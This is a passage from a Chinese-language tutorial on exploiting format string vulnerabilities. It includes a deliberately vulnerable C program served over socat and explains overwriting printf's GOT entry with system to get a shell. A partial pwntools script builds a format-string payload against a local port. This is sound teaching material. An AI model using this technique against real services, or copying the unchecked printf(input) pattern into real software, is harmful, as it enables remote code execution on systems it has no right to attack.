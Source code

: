 内存数据dump下来后，虽然跟原始bin有很大不同，也运行不了，但是丢到ida中任然是可以看的:

![format1](http://qn.lazysheep.cc/img/format1.png)

# Write

二进制漏洞的最终目的都是要getshell，所以在我们获取到bin后，接下来就是要getshell了

不过之前的demo过于简单，没有什么好的getshell的方法，对demo进行下修改.
```
# fmt_test2.c
#include <stdio.h>

int main(int argc, char * argv[])
{
	char a[1024];
	while(1) 
	{
		memset(a, '\0', 1024);
		read(0, a, 1024);
		printf(a);
		fflush(stdout);
	}
	return 0;
}


# $ gcc fmt_test2.c -o fmt_test2 -m32
# $ socat TCP4-LISTEN:10001,fork EXEC:./fmt_test2
```

和之前的demo比，多了循环，不像之前一样一下就退出了

在这种情况下，我们可以很容易只依靠格式化字符串漏洞进行攻击

利用的逻辑很简单，根据之前的知识点，leak出bin，然后获取到`printf`函数的got表地址，然后把这个地址的值改为`system`函数的地址，在下次循环的时候，输入`/bin/sh`，则`printf(a);`实际执行的却是`system('/bin/sh')`

利用过程中，第一个知识点: dump 内存数据，也就是上面的内容，得到bin后，可以很容易的获取到got表信息

接下来第二个知识点就是获取`system`函数的地址，不过却需要爆破跑

每次我首先获取`printf`函数的地址，然后再根据自己机子上`printf`和`system`函数之间的差值估测一个大概范围进行爆破，得到的数据和`system`函数中的一些特征数据进行对比，判断是否是system函数

这一步跳过，现在假设自己有libc库，我本地的libc中，`printf`和`system`函数的差值为:`59600`

最后一步，就是通过格式化字符串内容进行写内存了，覆盖got表中的值

这里我们可以使用pwntools神器:

```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context.log_level = 'debug'
printf_got = 0x804a010
system_add = 0xaaaaaaaa

def exec_fmt(payload):
	p.sendline(payload)
	return p.recv()

p = remote("127.0.0.1", 10001)
autofmt = FmtStr(exec_fmt)
payload = fmtstr_payload(autofmt.offset, {printf_got: system_add})
```
